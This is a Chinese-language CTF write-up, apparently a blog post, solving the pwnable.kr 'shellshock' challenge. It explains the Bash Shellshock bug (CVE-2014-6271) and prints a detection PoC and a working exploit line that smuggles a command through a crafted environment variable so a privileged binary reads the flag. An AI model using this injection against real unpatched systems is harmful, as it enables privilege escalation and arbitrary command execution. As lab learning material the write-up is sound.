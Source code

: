 ```yaml
---
title: pwnable.kr-shellshock
date: 2018-01-24 11:48:00
tags: [pwnable.kr,PWN]
categories: CTF
---
```

## 前言
这题考察著名漏洞的利用，就是当年被评为10级严重的“破壳”漏洞。当时确实不知道，上网搜的。
## 分析
贴出shellshock.c的源码
```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}

```
程序首先使用`setreuid`和`setregid`调用分别设置了三个ID都为`getegid`而这个调用获取的有效组id标识的是组`shellshock_pwn`,这通过执行`ls -l`就可以看到。
```
shellshock@ubuntu:~$ ls -l
total 960
-r-xr-xr-x 1 root shellshock     959120 Oct 12  2014 bash
-r--r----- 1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x 1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r-- 1 root root              188 Oct 12  2014 shellshock.c
shellshock@ubuntu:~$ 
```
这个组是有读取flag的权限的，这样程序在后续就有权限执行flag的读取操作。于是在利用bash的“破壳”漏洞即可getflag
## 知识点
Bash 4.3以及之前的版本在处理某些构造的环境变量时存在安全漏洞，向环境变量值内的函数定义后添加多余的字符串会触发此漏洞，攻击者可利用此漏洞改变或绕过环境限制，以执行任意的shell命令,甚至完全控制目标系统

受到该漏洞影响的bash使用的环境变量是通过函数名称来调用的，以“(){”开头通过环境变量来定义的。而在处理这样的“函数环境变量”的时候，并没有以函数结尾“}”为结束，而是一直执行其后的shell命令。这个漏洞导致了CVE-2014-6271，CVE-2014-7169，CVE-2014-6277，CVE-2014-6278，CVE-2014-7186，CVE-2014-7187六个CVE的爆发。

对于该漏洞的详细描述网上到处都有，就不再多说。可以使用下面的poc验证是否存在漏洞：
```
env x='() { :;}; echo Shellshock' bash -c "exit"
```
存在的话会输出`shellshock`这段话。
## 利用
知道了漏洞，那么利用就很简单了。根据题目使用下面的exp
```
env f='() { :;};bash -c "cat flag"' ./shellshock
```
```
shellshock@ubuntu:~$ env f='() { :;};bash -c "cat flag"' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
```
需要注意的是，直接执行`cat flag`会提示找不到文件或目录，要用bash命令来执行才可以。（原因我也不知道。。。）

## 总结
又学到了一个知名漏洞的利用，同时也发现自己知道的真的太少了，要好好学习才行。